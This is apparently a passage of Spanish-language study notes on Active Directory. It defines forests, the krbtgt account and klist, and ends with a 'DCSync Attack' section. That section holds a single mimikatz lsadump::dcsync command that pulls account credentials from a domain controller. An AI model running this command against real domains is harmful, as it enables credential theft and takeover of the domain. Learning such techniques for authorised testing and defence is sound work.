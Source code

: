 #### Bosque
Es una construcción lógica que `Active Directory Domain Services` **(AD DS)** usa para agrupar uno o más dominios. Estos dominios almacenan objetos para los usuarios o grupos, y proporcionan servicios de autenticación.

----

**usuario krbtgt**: se crea automáticamente cuando promueve un nuevo dominio de Active Directory. Sin embargo, muchos administradores de AD no tienen suficiente conocimiento de esta cuenta, lo cual es muy importante desde el punto de vista de la seguridad y de toda la operación del dominio.

**klist**: Muestra una lista de los vales de Kerberos actualmente almacenados en caché.

### Quemando el bosque (DCSync Attack)
```
lsadump::dcsync /domain:prod.corp1.com /user:corp1$
```
